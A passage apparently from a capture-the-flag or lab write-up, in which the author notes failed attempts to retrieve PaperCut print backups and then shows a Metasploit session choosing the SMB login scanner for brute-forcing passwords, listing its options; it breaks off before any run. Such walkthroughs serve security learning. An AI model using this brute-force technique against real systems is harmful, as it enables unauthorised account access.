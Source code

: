 I managed to find some interesting results that looked like a potential way to retrieve printed documents through backups, but either I did not have the proper privileges, or these options were not active on this site. 

* [https://www.papercut.com/kb/Main/RetrieveDeletedUserPrintData\#restore-from-a-backup-on-to-a-test-server](https://www.papercut.com/kb/Main/RetrieveDeletedUserPrintData#restore-from-a-backup-on-to-a-test-server)
* [https://www.papercut.com/support/resources/manuals/ng-mf/common/topics/sys-backups.html](https://www.papercut.com/support/resources/manuals/ng-mf/common/topics/sys-backups.html)
* \[app-path\]\server\data\backups
* [https://nvd.nist.gov/vuln/detail/CVE-2019-8948](https://nvd.nist.gov/vuln/detail/CVE-2019-8948)

After exhausting those possibilities, I went back and tried to do a good ol' brute force enumeration using the valid usernames I had found and the potential password I had spotted.

```text
msf5 auxiliary(gather/kerberos_enumusers) > search type:auxiliary smb

Matching Modules
================

   #   Name                                                            Disclosure Date  Rank    Check  Description
   -   ----                                                            ---------------  ----    -----  -----------
...snipped...
55  auxiliary/scanner/smb/smb_enumusers                                              normal  No     SMB User Enumeration (SAM EnumUsers)                                                                     
56  auxiliary/scanner/smb/smb_enumusers_domain                                       normal  No     SMB Domain User Enumeration                                                                              
57  auxiliary/scanner/smb/smb_login                                                  normal  No     SMB Login Check Scanner                                                                                  
58  auxiliary/scanner/smb/smb_lookupsid                                              normal  No     SMB SID User Enumeration (LookupSid)                                                                     
59  auxiliary/scanner/smb/smb_ms17_010
...snipped...
msf5 auxiliary(scanner/smb/smb_enumusers) > use 57
msf5 auxiliary(scanner/smb/smb_login) > options

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
   DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
   PASS_FILE                           no        File containing passwords, one per line
   PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
```